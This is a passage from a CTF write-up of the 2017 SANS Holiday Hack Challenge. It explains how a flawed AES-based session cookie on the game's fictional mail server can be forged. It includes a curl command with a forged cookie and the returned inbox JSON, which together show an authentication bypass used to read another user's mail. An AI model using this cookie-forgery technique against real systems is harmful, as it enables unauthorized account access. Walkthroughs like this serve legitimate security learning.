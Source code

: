 ```js
When decoded this 21 bytes in total length. 16 bytes for IV and 5 byte of random characters
```

16 bytes is how much space we have for the cipher text.

```js
var ciphertext = aes256.encrypt(key, plaintext).replace(/\=/g,'');
```

The cipher text is equal to the `aes256` encrypted plaintext value is `XOR`ed with 0, so using a full 16 byte value will result in an output cipher text of a `null bytes`, then stripped of its space characters leveling an empty `""`

Using this knowledge you can create a cookie with a full 16 bytes as the cyphertext `AAAAAAAAAAAAAAAAAAAAAA` and leave the plaintext value as `""`. Then you simply substitute in the email address in the name field and send this cookie off.

```bash
curl -XPOST -sL "http://mail.northpolechristmastown.com:3000/api.js" -d "getmail=getmail" -H "Cookie: EWA={\"name\":\"alabaster.snowball@northpolechristmastown.com\",\"plaintext\":\"\",\"ciphertext\":\"AAAAAAAAAAAAAAAAAAAAAA\"}"

{"INBOX":[{"HEADERS":{"which":"HEADER","size":920,"body":{"return-path":["<admin@northpolechristmastown.com>"],"delivered-to":["alabaster.snowball@northpolechristmastown.com"],"received":["from localhost (localhost [127.0.0.1])\tby mail.northpolechristmastown.com (Postfix) with ESMTP id 4CFA8BD745\tfor <alabaster.snowball@northpolechristmastown.com>; Wed,  8 Nov 2017 16:01:02 +0000 (UTC)","from mail.northpolechristmastown.com ([127.0.0.1])\tby localhost (mail.northpolechristmastown.com [127.0.0.1]) (amavisd-new, port 10024)\twith ESMTP id IsBXKyYpc5sC\tfor <alabaster.snowball@northpolechristmastown.com>;\tWed,  8 Nov 2017 16:01:02 +0000 (UTC)"],"to":["alabaster.snowball@northpolechristmastown.com"]

etc...
```

This returned the full inbox of Alabaster. Now that I knew it could work, I simply created a fake cookie with this same information and loaded it into Firefox.

<img class="img-responsive image-box-shadow" src="/img/blog/2017/12/hhc2017-challenge03-cookie.jpg" />

Refreshing the `http://mail.northpolechristmastown.com` after the cookie was loading resulted in a redirect to `http://mail.northpolechristmastown.com/account.html` and the ability to view Alabaster's entire inbox.

Reading through all the emails, I could tell some of this information was likely to come in handy later on, however all this challenge required at present was the title of GreatBookPage4.pdf which I found to be located in the last email in the inbox.

<img class="img-responsive image-box-shadow" src="/img/blog/2017/12/hhc2017-challenge03-greatbookpage4.jpg" />

I could navigate to the url `http://mail.northpolechristmastown.com/attachments/GreatBookPage4_893jt91md2.pdf` and download a copy of **[GreatBookPage4.pdf](/misc/2017/12/GreatBookPage4.pdf)**. The title of this page was **The Rise of the Lollipop Guild**.

The page explains that a ``Terrorist group called The Lollipop Guild`` is likely to have infiltrated the elven population and are living amongst those small little toymaker living in the North Pole. The terrorists living in society are called ``Munchkin Moles``. These are just rumors, but is it so hard to believe?
